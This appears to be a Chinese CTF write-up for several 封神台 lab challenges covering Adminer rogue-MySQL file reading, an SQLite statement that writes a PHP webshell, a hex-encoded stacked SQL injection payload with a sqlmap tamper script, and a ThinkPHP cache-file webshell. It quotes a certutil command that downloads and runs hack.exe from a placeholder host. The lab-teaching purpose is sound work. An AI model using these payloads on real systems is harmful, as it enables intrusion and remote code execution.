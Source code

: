 ﻿---
title: 封神台CTF
categories: 赛题wp
---
# 一起下象棋
robots.txt发现jsfuck，解密出flag

[地址](http://vgtres-b924.aqlab.cn/easy_web/)

<!--more-->

# 靶场B
根据公告flag文件在index.php存在一个特殊的数据库连接程序 `/adminer/` 可以尝试利用搭建恶意mysql服务读取文件

[MySQL 服务端恶意读取客户端任意文件漏洞](https://cloud.tencent.com/developer/article/1818089)

exp:[Rogue MySql Server](https://github.com/Gifts/Rogue-MySql-Server)

根据页面报错修改读取文件为 C:\phpstudy_pr0\WWW\index.php，并`赋予777权限`

回到页面进行连接

![](https://img-blog.csdnimg.cn/e5b59f1154994095b357ac4509be4ec8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
查看mysql.log
![](https://img-blog.csdnimg.cn/f227cd60f19147e6a6b4177ae52080ad.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
解法二：
点击系统，选择SQLite3然后直接点击登录，即可登录进管理界面
![](https://img-blog.csdnimg.cn/e03a81de1b324a9694cb55b54710ed07.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
执行sql语句：
![](https://img-blog.csdnimg.cn/75ee7f76cf4d4a38b8b00fa842f65975.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
```
ATTACH DATABASE 'flag111.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?php echo file_get_contents("../index.php")?>');
```
![](https://img-blog.csdnimg.cn/d40d372de0da4f52959bf022a187430e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
获取webshell后蚁剑连接，进行提权，没尝试，应该可以利用cs插件进行提权，wp是通过
`certutil -urlcache -split -f http://xxxx/hack.exe hack.exe` 进行下载运行 

# SQL注入
- 预编译
- 过滤select
- 堆叠注入

![](https://img-blog.csdnimg.cn/353a45046d804e8bb301fdc49f41634b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

这关过滤了 `select` 关键字，并且使用了预编译，那么也就意味着我们构造的payload中不能出现 `select` 和 `单双引号`，后面的问题好解决，用十六进制编码就可以绕过，但是过滤了select的话就得想其他办法来绕过了


 如果说这个地方存在堆叠注入,那么我们可以可以采用下面的payload来进行绕过
 ```
-- @x=后面的是字符串，那么也就是说我们可以用十六进制进行替换
;set @x="select sleep(10)"; 
prepare a from @x;
EXECUTE a;
	
-- 处理好后的语句也就是这样
;set @x=0x73656c65637420736c65657028313029;
prepare a from @x;
EXECUTE a;
 ```
 其实想知道这里是否存在堆叠注入很简单，直接把这个payload放到靶场中运行一下就知道了
 
 如果有小伙伴就是想知道怎么判断这里他是否存在堆叠注入，其实也有办法
 
 我们传参 `?id=1a`,看他是否报错，如下图，他报错了说明了数据没有被强转


然后我们把a改为; 传参`?id=1;`,它却没有报错，说明;没有被带入查询，而是解析了(;在sql中表示一串sql语句的结束)

![](https://img-blog.csdnimg.cn/023b1c788af04f14a1298842e3f9e787.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
那么这时候就很大概率确定它存在堆叠注入，外加上面有说这里用了PDO，PDO在没有经过特殊配置的情况下是可以一次执行多条SQL语句的

 那么我们就可以利用上面给出的payload来编写sqlmap的绕过脚本
 
0xduidie.py
```python
#!/usr/bin/env python
import sys
import string

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
	pass

def tamper(payload, **kwargs):
	payload = 'select 1'+payload
	payload = payload.encode().hex()
	payload = '1;set @x=0x'+payload+';prepare a from @x;EXECUTE a;'
	return payload
```

# 靶场A
一个cms，提示：

>Thinkphp缓存拿webshell，在发帖的地方。核心在于计算，要看得懂源码（也有损招，本地搭建的网站缓存文件名和线上相同。因为算法一致。本地发个帖，知道你的贴对应的缓存名，线上也能试出来）

本地搭建后发帖然后，去找缓存文件

一个帖子会多出来7个文件
![](https://img-blog.csdnimg.cn/18632bf5e9f141568264a705ec68ef62.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
发现其中一个就是我们写入的帖子内容：
![](https://img-blog.csdnimg.cn/4fbd6a08e30a4650936393b8f29bf3f7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
看到内容是`<p></p>`包裹的，尝试直接写入，果然进行了转义
![](https://img-blog.csdnimg.cn/a62437adccf14f1686f42498fbd3cafd.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
但是在插入html源码时发现是可以写入
![](https://img-blog.csdnimg.cn/4b3337ee105340c6bf553b84165d109e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_19,color_FFFFFF,t_70,g_se,x_16#pic_center)
![](https://img-blog.csdnimg.cn/e8b967879a234404b546fda07c2e71b8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
尝试访问：
![](https://img-blog.csdnimg.cn/88e59c3438684ba192f85d338ec8fcf2.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
再次尝试：
![](https://img-blog.csdnimg.cn/c83a187065704dfe9dd438acabb41806.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_13,color_FFFFFF,t_70,g_se,x_16#pic_center)
![](https://img-blog.csdnimg.cn/e58405d8c630452bb6ba1afe94331ce5.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
![](https://img-blog.csdnimg.cn/5157a651b0244de1b9539c441ea8398c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
但是缓存文件的名字是怎么来的？

看着缓存文件名字像md5，解出来一个，确定是md5加密类型，明文是什么？
在文件中找到可疑地方
![](https://img-blog.csdnimg.cn/1b91471f912c414690b16d36f43b8134.png#pic_center)
尝试进行构造`post_data_[tid]`的md5是否和缓存文件名相同
![](https://img-blog.csdnimg.cn/ec567b8ec4ba42128d456f6a1fdf3164.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

